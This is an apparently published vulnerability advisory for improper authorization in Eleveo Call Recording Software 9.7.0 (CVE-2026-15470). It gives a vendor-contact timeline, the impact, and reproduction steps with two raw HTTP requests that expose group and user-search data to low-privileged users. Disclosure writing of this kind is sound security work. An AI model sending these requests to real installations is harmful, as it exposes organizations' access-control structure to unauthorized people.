


# Eleveo Call Recording Software 9.7.0 /callrec/group.jsp Improper Authorization

> - https://vuldb.com/vuln/377775
> - https://vuldb.com/submit/797463
> - https://www.cve.org/CVERecord?id=CVE-2026-15470

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 5/4/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 11/7/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

Multiple Broken Access Control vulnerabilities in Eleveo Call Recording 9.7.0 allow low-privileged authenticated users, including those without “Users and Roles” privilege, to access group configuration details via /callrec/group.jsp and /callrec/user_search.jsp endpoints. The backend does not properly enforce role-based access control, allowing unauthorized users to retrieve information about system groups. The exposed data includes group names, phone number filters, parent group relationships, descriptions, and assigned privileges. This information should be restricted to authorized administrative users.

## Implications

- Disclosure of group configuration details, including group names, phone number filters, parent group relationships, descriptions, and assigned privileges.
- Exposure of internal access control structure, which may assist attackers in identifying privileged groups and planning further attacks.

## Vulnerability Type

Broken Access Control / Improper Authorization

## Steps to Reproduce

1. Login as a low-privilege user with no “**Users and Roles**” privilege


2. Navigate to https://example.local/callrec/index_group.jsp?viewRoleId=5, which triggers the following request:

```http
GET /callrec/group.jsp?org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&viewRoleId=1 HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/index_group.jsp?viewRoleId=1s
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```

3. Observe the group details are displayed



4. The same applies to **/callrec/user_search.jsp**, https://example.local/callrec/user_search.jsp?viewRoleId=1
```html
GET /callrec/user_search.jsp?org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&viewRoleId=2&username=&surname=&name=&email=&phone= HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/userEditAction.do
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```


